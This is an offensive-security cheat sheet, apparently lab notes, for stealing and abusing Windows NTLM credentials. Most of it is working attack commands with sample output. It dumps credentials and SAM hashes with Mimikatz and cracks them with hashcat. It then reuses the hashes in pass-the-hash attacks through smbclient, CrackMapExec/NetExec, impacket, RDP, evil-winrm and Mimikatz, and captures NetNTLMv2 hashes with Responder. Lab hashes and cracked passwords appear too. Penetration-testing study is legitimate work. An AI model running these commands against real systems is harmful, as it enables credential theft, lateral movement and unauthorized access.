

# Cracking NTLM

## (BONUS) Find a Local User
```bash
#Open Powershell
Get-LocalUser
```

## Mimikatz (Run as Administrator)

```bash
# We can use various commands to extract passwords from the system
privilege::debug
sekurlsa::logonpasswords

# Extract the NTLM hashes from the SAM
# Step 1: Elevate to SYSTEM user privileges
privilege::debug
token::elevate
lsadump::sam
```
## Put hash into file. Identify Hash type and crack it

```bash
hashid 'hash'

#Example:
hashid '3ae8e5f0ffabb3a627672e1600f1ba10'                                                                                                                                                                                                                                                                               
Analyzing '3ae8e5f0ffabb3a627672e1600f1ba10'                                                                                                                                                                                                                                                                                
[+] MD2                                                                                                                                                                                                                                                                                                                     
[+] MD5                                                                                                                                                                                                                                                                                                                     
[+] MD4                                                                                                                                                                                                                                                                                                                     
[+] Double MD5                                                                                                                                                                                                                                                                                                              
[+] LM                                                                                                                                                                                                                                                                                                                      
[+] RIPEMD-128                                                                                                                                                                                                                                                                                                              
[+] Haval-128                                                                                                                                                                                                                                                                                                               
[+] Tiger-128                                                                                                                                                                                                                                                                                                               
[+] Skein-256(128)                                                                                                                                                                                                                                                                                                          
[+] Skein-512(128)                                                                                                                                                                                                                                                                                                          
[+] Lotus Notes/Domino 5                                                                                                                                                                                                                                                                                                    
[+] Skype                                                                                                                                                                                                                                                                                                                   
[+] Snefru-128                                                                                                                                                                                                                                                                                                              
[+] NTLM                                                                                                                                                                                                                                                                                                                    
[+] Domain Cached Credentials                                                                                                                                                                                                                                                                                               
[+] Domain Cached Credentials 2                                                                                                                                                                                                                                                                                             
[+] DNSSEC(NSEC3)                                                                                                                                                                                                                                                                                                           
[+] RAdmin v2.x 

# NTLM

hashcat -m 1000 nelly_hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best66.rule --force

#Results: 
3ae8e5f0ffabb3a627672e1600f1ba10:nicole1   
```

# PtH (Pass-The-Hash) NTLM

```bash
# Following the same methodology in Mimikatz section. Once you obtain a hash:

#Administrator
7a38310ea6f0027ee955abed1762964b

# Utilize various tools for a PtH attack
- smbclient (Good for file enumeration)
    smbclient \\\\<target-ip>\\<share> -U <domain>/<username> --pw-nt-hash <hash>

    #Example:
    smbclient \\\\192.168.102.227\\secrets -U MARKETINGWK02/Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

- CrackMapExec (Best for validation + spraying)
    crackmapexec smb <target-ip> -u <username> -H <hash> --local-auth
    netexec smb <target-ip> -u <username> -H <hash> --local-auth

    #Example:
    crackmapexec smb 192.168.102.227 -u Administrator -H 7a38310ea6f0027ee955abed1762964b --local-auth
    netexec smb 192.168.102.227 -u Administrator -H 7a38310ea6f0027ee955abed1762964b --local-auth

    # Execute a Command
    crackmapexec smb 192.168.102.227 -u Administrator -H 7a38310ea6f0027ee955abed1762964b --local-auth -x "whoami"

    # Dump SAM via PtH
    crackmapexec smb 192.168.102.227 -u Administrator -H 7a38310ea6f0027ee955abed1762964b --local-auth --sam


- impacket
    - psexec.py (Noisy, drops binary on disk)
    - wmiexec.py (Stealthier, no binary dropped)
        /home/kali/impacket-latest/examples/psexec.py <domain>/<username>@<target-ip> -hashes :<hash>

        #Example
        /home/kali/impacket-latest/examples/wmiexec.py Administrator@192.168.102.227 -hashes :7a38310ea6f0027ee955abed1762964b

        #With Domain
        /home/kali/impacket-latest/examples/wmiexec.py MARKETINGWK02/Administrator@192.168.102.227 -hashes :7a38310ea6f0027ee955abed1762964b

- RDP (Needs Restricted Admin Mode)
    xfreerdp3 /v:<target-ip> /u:<username> /pth:<hash> /cert:ignore +clipboard +fonts +compression /dynamic-resolution /drive:tools,/home/kali/tools

    #Example:
    xfreerdp3 /v:192.168.102.227 /u:Administrator /pth:7a38310ea6f0027ee955abed1762964b /cert:ignore +clipboard +fonts +compression /dynamic-resolution /drive:tools,/home/kali/tools

    #NOTE: RDP PtH only works if Restricted Admin Mode is enabled on the target. Enable it via registry if you have code execution:
    reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
- WinRM (Clean PowerShell interface)
    evil-winrm -i <target-ip> -u <username> -H <hash>

    #Example
    evil-winrm -i 192.168.102.227 -u Administrator -H 7a38310ea6f0027ee955abed1762964b

- Mimikatz (lateral movement from a Windows host)
    sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<command>

    #Spawn a cmd shell
    sekurlsa::pth /user:Administrator /domain:MARKETINGWK02 /ntlm:7a38310ea6f0027ee955abed1762964b /run:cmd.exe

    #spawn PowerShell
    sekurlsa::pth /user:Administrator /domain:MARKETINGWK02 /ntlm:7a38310ea6f0027ee955abed1762964b /run:powershell.exe
```

# Non-Privileged User (NTLMv2)

```bash
# Without privileges, we can not run mimikatz.exe, lets set up `responder`.

# Step 1: Retrieve list of all interfaces (On Kali Machine)
ip a

# Results
    6: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet **192.168.45.161/24** brd 192.168.45.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::121:ef5f:a6ff:4734/64 scope link stable-privacy proto kernel_ll 
       valid_lft forever preferred_lft forever

# Step 2: Start Responder (On Kali Machine)
sudo responder -I tun0

# Step 3 (On TGT Machine Bind or reverse shell): Access a non-existent SMB share on our Responder SMB server
# Input your Kali IP and a Fake Folder
dir \\192.168.45.161\test
```



## Crack The new hash

```bash
sudo nano paul.hash

#Paste hash
paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050CD1777D801B7585DF5719ACFBA0000000002000800360057004D00520001001E00570049004E002D00340044004E004800550058004300340054004900430004003400570049004E002D00340044004E00480055005800430034005400490043002E00360057004D0052002E004C004F00430041004C0003001400360057004D0052002E004C004F00430041004C0005001400360057004D0052002E004C004F00430041004C000700080000B050CD1777D801060004000200000008003000300000000000000000000000002000008BA7AF42BFD51D70090007951B57CB2F5546F7B599BC577CCD13187CFC5EF4790A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E003100310038002E0032000000000000000000 

# We know its a NTLMv2 Hash. but lets confirm.
hashid 'paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050CD1777D801B7585DF5719ACFBA0000000002000800360057004D00520001001E00570049004E002D00340044004E004800550058004300340054004900430004003400570049004E002D00340044004E00480055005800430034005400490043002E00360057004D0052002E004C004F00430041004C0003001400360057004D0052002E004C004F00430041004C0005001400360057004D0052002E004C004F00430041004C000700080000B050CD1777D801060004000200000008003000300000000000000000000000002000008BA7AF42BFD51D70090007951B57CB2F5546F7B599BC577CCD13187CFC5EF4790A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E003100310038002E0032000000000000000000' 
Analyzing 'paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050CD1777D801B7585DF5719ACFBA0000000002000800360057004D00520001001E00570049004E002D00340044004E004800550058004300340054004900430004003400570049004E002D00340044004E00480055005800430034005400490043002E00360057004D0052002E004C004F00430041004C0003001400360057004D0052002E004C004F00430041004C0005001400360057004D0052002E004C004F00430041004C000700080000B050CD1777D801060004000200000008003000300000000000000000000000002000008BA7AF42BFD51D70090007951B57CB2F5546F7B599BC577CCD13187CFC5EF4790A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E003100310038002E0032000000000000000000'
[+] NetNTLMv2 

# Crack it
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force

# Results
123Password123

# Now you may RDP, WinRM, SMB or whatever you want to connect insstead of using shell
```